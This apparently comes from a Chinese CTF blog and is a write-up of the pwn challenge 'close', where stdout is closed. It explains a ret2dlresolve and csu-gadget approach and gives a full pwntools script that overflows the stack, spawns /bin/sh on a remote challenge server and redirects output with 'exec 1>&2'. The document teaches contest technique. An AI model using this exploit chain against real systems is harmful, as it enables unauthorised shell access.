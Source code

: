 ### close
Q:你leak不了一点！hacker！！
A:？？？？？？
依旧是栈溢出，这次没有沙箱了。但是把标准输出关闭了。这意味着我们需要把标准输出重定向才能获得flag
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/3dis1.png)
既然我们在get shell之前没办法获得任何输出，那么我们必须采用一种不依赖于泄露东西的方法。
于是毋庸置疑，关于泄露libc地址的方法直接一票否决了。
于是考虑使用ret2dlresolve来调用shell。
这里使用生成的payload
原本是想用system("/bin/sh")的，但是发现system好像有些神秘问题导致显示：
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/3problem.png)
于是采用execve("/bin/sh",0,0)来获取shell
但是由于没有直接pop rdx的gadget，我们使用csu来进行rdx的修改。（注意这里面的call和判断,标记起来了）：
![](https://akyoi.akyuu.space/blogs/CTF/monthgame2310/3csu.png)
所以我们先把想要的rdx的值pop到r14里面，然后返回到0x4012300那里，把r14赋给rdx。这里绕过判断就是让rbx和rbp值相等。这里多调试几下就OK了
之后就get到shell了。这时候我们要把标准输出重定向到标准错误里面，即exec 1>&2
hint:网上关于标准输出被关闭的情况，有教程：exec 1>&0。但是似乎ubuntu 20不太好使。 可以选择把输出重定向给标准错误（2）
```
from pwn import *
context(arch='amd64',os='linux')
context.log_level='debug'
context.terminal=['tmux','splitw','-h']
context.binary = elf = ELF("./pwn")
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(elf,symbol="execve",args=["/bin/sh",0])
rop.read(0,dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()
# io = process("./pwn")
# io=process(['./ld-linux-x86-64.so.2', './pwn'], env={"LD_PRELOAD":'./libc.so.6'})
# io=process(['./ld-2.31.so', './pwn'], env={"LD_PRELOAD":'./libc-2.31.so'})
io=remote('8.130.110.158',7001)
# gdb.attach(io)
payload0 = flat({0x98:raw_rop})
io.sendlineafter('name',"fuck")
payload1=b'a'*0x90+p64(0x404e90)+p64(0x40127c)
io.sendlineafter('response',payload1)
pause()
io.sendline(dlresolve.payload.ljust(0x90,b'\x00')+p64(0x404ff0)+p64(0x401323)+p64(0x402018)+p64(0x40131a)+p64(0)+p64(1)+p64(0x402018)+p64(0)+p64(0)+p64(elf.got['alarm'])+p64(0x401300)+p64(0x404e90)+p64(0x404ff0)+p64(0x401230)+p64(0)+p64(0)+p64(0)+raw_rop[40:])
# pause()
# io.sendline(dlresolve.payload)
# io=remote('8.130.110.158',7001)
io.sendline(b"exec 1>&2")
io.sendline(b"ls")
io.interactive()
 
# 0x404e90
# 0x000000000040131c : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040131e : pop r13 ; pop r14 ; pop r15 ; ret
# 0x0000000000401320 : pop r14 ; pop r15 ; ret
# 0x0000000000401322 : pop r15 ; ret
# 0x000000000040131b : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040131f : pop rbp ; pop r14 ; pop r15 ; ret
# 0x00000000004011bd : pop rbp ; ret
# 0x0000000000401323 : pop rdi ; ret
# 0x0000000000401321 : pop rsi ; pop r15 ; ret
# 0x000000000040131d : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
# 0x000000000040101a : ret
```
